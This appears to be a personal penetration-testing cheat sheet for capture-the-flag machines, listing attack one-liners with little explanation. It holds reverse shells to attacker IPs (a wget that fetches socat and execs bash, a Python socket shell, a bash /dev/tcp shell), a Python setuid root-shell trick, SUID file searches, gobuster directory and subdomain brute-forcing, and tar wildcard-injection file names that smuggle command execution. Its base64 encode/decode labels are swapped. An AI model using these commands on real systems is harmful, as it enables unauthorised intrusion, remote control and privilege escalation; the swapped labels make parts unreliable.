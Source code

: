 socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
export TERM=xterm-256color
stty rows 22 columns 107

-------------------------------------------------------python_http_server-------------------------------------------

sudo python3 -m http.server 80
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")' id cap-setuid enable with python 

python3 -c 'import socket,pty,os;s=socket.socket();s.connect(("10.10.14.9",4444));[os.dup2(s.fileno(),i) for i in range(3)];pty.spawn("/bin/bash");'
----------------------------------------------------------------------------------------------
bash -c "bash -i >& /dev/tcp/10.9.80.151/7000 0>&1"
--------------------------------------------------------------------------------------------
find / -perm -u=s -type f 2>/dev/null 
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
------------------------------------------------------------------------------------------------------
echo '10.10.10.11 2million.htb' | sudo tee -a /etc/hosts
------------------------------------------------------------------------------------------------------
cat back.sh |base64 -w0                 -:decode
echo "hello world" |base64 -d		-:encode
----------------------------------mysql_login---------------------------------------------
mysql -h db -u root -proot cacti -e 'show tables;'
==============================================scp================================================
scp username@remote_ip:/path/on/remote/machine /path/to/local/destination

scp -r /path/to/local/directory username@remote_ip:/path/on/remote/machine(recurssively entire directory)
scp -i /path/to/private/key /path/to/local/file username@remote_ip:/path/on/remote/machine (with rsa key)
scp -P port_number /path/to/local/file username@remote_ip:/path/on/remote/machine (through unusual port number)
scp username@remote_ip1:/path/to/source/file username@remote_ip2:/path/to/destination/

========================================================ssh======================================
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.106.252
ssh user@ipaddress -oHostKeyAlgorithms=+ssh-rsa : if ssh not working

----------------------------------directory_brute------------------------------------------------------------------

gobuster dir -u http://xxxxxxxxxx -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -k

gobuster dir -u http://xxxxxxxxxx  -w /usr/share/seclists/Discovery/Web-Content/common.txt

gobuster dir -u http://10.10.132.101:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt  -b 403

----------------------------------------------subdomain_brute------------------------------------------------------------
gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt  -u http://thetoppers.htb --append-domain Host: [word].thetoppers.htb
gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -u https://futurevera.thm/ --append-domain Host: [word].futurevera.thm/ -k  => adding -k for https
----------------------------------------------------------------------------------------------------------------------
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
=============================================interactive_shell=======================
